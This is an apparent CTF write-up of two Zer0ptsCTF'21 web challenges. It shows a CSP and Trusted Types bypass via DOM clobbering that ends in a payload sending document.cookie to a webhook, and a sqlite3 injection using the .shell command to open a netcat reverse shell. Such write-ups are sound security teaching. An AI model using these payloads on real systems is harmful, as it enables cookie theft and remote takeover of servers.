 ```yaml
---
layout: post
title: Zer0ptsCTF - Web Exploitation
excerpt: "
Zer0pts challenges were well made and challenging. Shout out to all the web authors for coming up with these challenges, definitly learned more about client-side and server-side. Here are writeups for two of the challenges I worked on. "
categories: [writeups, Zer0ptsCTF'21]
tags: [web]
---
```


Zer0pts challenges were well made and challenging. Shout out to all the web authors for coming up with these challenges, definitly learned more about client-side and server-side. Here are writeups for two of the challenges I worked on. 

#### Simple Blog
```
Now I am developing a blog service. I'm aware that there is a simple XSS. However, I introduced strong security mechanisms, named Content Security Policy and Trusted Types. So you cannot abuse the vulnerability in any modern browsers, including Firefox, right?
```

This challenge gives us a really obvious HTML injection marker and we have to find some way to convert that to full XSS. As it is PHP wtih no filtering, we see that the following will let us insert any HTML by simply closing out the tag. i.e `"><h1>test</h1>`.
```php
<link  rel="stylesheet" href="/css/bootstrap-<?= $theme ?>.min.css">
<link  rel="stylesheet" href="/css/style.css">
```

The much more interesting function and what we have to bypass is the CSP which is given and a trusted types from the init function which is implemented through a polyfill. The CSP is implemented and trusted types are implemented via the following HTML.`
```html
<meta  http-equiv="Content-Security-Policy"  content="default-src 'self'; object-src 'none'; base-uri 'none'; script-src 'nonce-<?= $nonce ?>' 'strict-dynamic'; require-trusted-types-for 'script'; trusted-types default">
<script src="/js/trustedtypes.build.js" nonce="<?= $nonce ?>" data-csp="require-trusted-types-for 'script'; trusted-types default"></script>
```

The code which actually implements trustedTypes is the following.
```javascript
    // initialize blog
    const init = () => {
      // try to register trusted types
      try {
        trustedTypes.createPolicy('default', {
          createHTML(url) {
            return url.replace(/[<>]/g, '');
          },
          createScriptURL(url) {
            if (url.includes('callback')) {
              throw new Error('custom callback is unimplemented');
            }

            return url;
          }
        });
      } catch {
        if (!trustedTypes.defaultPolicy) {
          throw new Error('failed to register default policy');
        }
      }

      // TODO: implement custom callback
      jsonp('/api.php', window.callback);
    };

    init();
    </script>
```

To quickly summarize trusted types, it restricts certain actions on the DOM. In this case, when some HTML is created, it replaces `<>` and when a new script is created the src url is passed through the `createScriptURL` function.

Now let's think about how we can bypass this. Our goal should be to be able to create a script with a src to the JSONP endpoint and be able to control the actual response. The first problem we face is trusted types. No matter what we do, be it HTML injection or manipulating the javascript, we will not be able to call the JSONP endpoint with `?callback=ourpayload` because of trusted types. How can we bypass this? The important note here is that the admin is running Firefox. As of writing this blog, Firefox has not implemented trusted types by default, hence the need for the polyfill. What this also means is that the trustedTypes object referenced by the javascript is not a native call.

The first idea that came to mind was if we can abuse the fact that it is in a try catch. If we could somehow make it fail and not raise an error, we would be able to create script tags with the `?callback` parameter. In order to do this, we can use DOM clobbering. If the following HTML is injected into the page, trustedTypes will look at the HTML element and not the trustedTypes from the javascript.

`<form id=trustedTypes></form>`

However, this is not enough because the catch will still raise an Error and we still won't be able to call the JSONP endpoint. However, if we can make `!trustedTypes.defaultPolicy` to be true then the Error will not be raised. This means we can simply make our DOM clobber to be the following and we will effectively disable trusted types in Firefox.

`<form id=trustedTypes><output id=defaultPolicy>`

Finally, we can DOM clobber callback and that will be passed to `jsonp('/api.php', window.callback);` which will let us create a script element with `?callback=ourpayload`. In order to do this 1 level clobber, I used the following format which will get rid of the automatic `https://` appended to the payload.

`<a id=callback href=a:alert(1);>`

This is where another really neat trick comes in. The PHP code limits our callback payload to 20 characters and it is not nearly enough to execute the javascript needed to exfil the flag. The following is from the official writeup [here](https://hackmd.io/@st98/S1z9qV1X_) and allows executing payloads longer than 20 characters. What we can do is instead of putting our payload in the callback, we create a script tag using the `data:` uri using the `jsonp()` function.

The payload passed to the callback parameter would look like this.
`<a href="a:jsonp(x)" id="callback"></a>`

And using our HTML injection, we can add another element like this.
`<a href="data:text/plain;base64,(Base64 encoded script)" id="x"></a>`

Our final URL sent to the admin looks like the following.
```
http://web.ctf.zer0pts.com:8003/?theme="><a id=callback href=a:jsonp(x)><form id=trustedTypes><output id=defaultPolicy><a href="data:text/plain;base64,(b64payload)" id="x"></a>
```

The content of the payload would be the following base64 encoded and we would get the cookie to our webhook.
```
document.location='https://webhook.site/asdf?'+document.cookie
```

Overall this was a very neat challenge in bypassing trusted types with DOM clobbering. The use of data decoding base64 inline is a cool idea and something to keep in mind for bypassing WAFs in the future.

#### Baby SQLi
```
Just login as admin.
```

This challenge was based around sql injection but in a very interesting and different manner. The core functionality was just a login page with a sqlite database backend. The most important code segments are the following.

```python
def sqlite3_query(sql):
    p = subprocess.Popen(['sqlite3', 'database.db'],
                         stdin=subprocess.PIPE,
                         stdout=subprocess.PIPE,
                         stderr=subprocess.PIPE)
    o, e = p.communicate(sql.encode())
    if e:
        raise Exception(e)
    result = []
    for row in o.decode().split('\n'):
        if row == '': break
        result.append(tuple(row.split('|')))
    return result

def sqlite3_escape(s):
    return re.sub(r'([^_\.\sa-zA-Z0-9])', r'\\\1', s)

def auth():
    # snip
    password_hash = hashlib.sha256(password.encode()).hexdigest()
    result = None
    try:
        result = sqlite3_query(
            'SELECT * FROM users WHERE username="{}" AND password="{}";'
            .format(sqlite3_escape(username), password_hash)
        )
    except:
        pass

    # snip
```

Summarizing the code, our username is passed to `sqlite3_escape`, formatted into a query, and sent to `sqlite3_query`. One thing to note here is that the escaping function adds a `\` infront of the block listed characters.  In addition, the way the query is ran is not through a sqlite3 library but rather with a Process.

Let's break this down one at a time. First, how are we even able to inject SQL? After a bit of googling, we found that sqlite escapes characters via double quotations, i.e `"a escaped "" wow"`. This will properly escape the quotation mark. However, as we looked at earlier the `sqlite3_escape` method adds backslashes. 

With this in mind, we are now able to craft queries like the following.

`SELECT * FROM users WHERE username="alice\"" AND password="asdf"`

This doesn't properly escape the quotation mark, rather it just throws an error. Now we can inject a semicolon and exit the statement! If our payload is `";`, our query now becomes the following.

`SELECT * FROM users WHERE username="alice\";" AND password="asdf"`

To make this exploitable, we used some attributes from the allow list. Two interesting things is that all whitespace (spaces, tabs, newlines) are allowed and periods (.) are allowed. We know that sqlite has special commands for statements that start with periods so we can think about how to exploit this.

What we ended up doing was adding a newline, calling the .shell function with arguments we wanted, and adding a final newline to get rid of the junk. This works because a newline is interpreted as a new command to the process. Although individual lines may error, the process is still running and thus our commands would still go through.

Our final payload was the following and has some tricks to make it smaller to reach the character limit where xxx.xx is your domain.

`";\n.shell nc xxx.xx 8 -e sh\n`

There are some things to address about our payload. First, why are we able to include a `-e` when it would become `\-e` and not work? This was discovered during testing by a teammate but we found that the `.shell` command actually expands the backslashes. This means it will actually become  `-e` when the command is executed.

Second, there are some optimizations to the nc reverse shell. The two main things were using a small port (8) and using `sh` instead of `/bin/sh`. Port 8 works but the listener must be run with sudo due to it not being a typically used port. The optimization to use `sh` came from local testing. I cannot say how important local testing is! If you are given the docker environment, like many of the zer0pts challenges were, always run the docker and try stuff out locally. You never know what you may find.

With this final payload, we are able to get a shell on the system and cat index.html for the flag. The description was a bit misleading as we needed RCE not just a typical sql injection but a very interesting challenge overall.
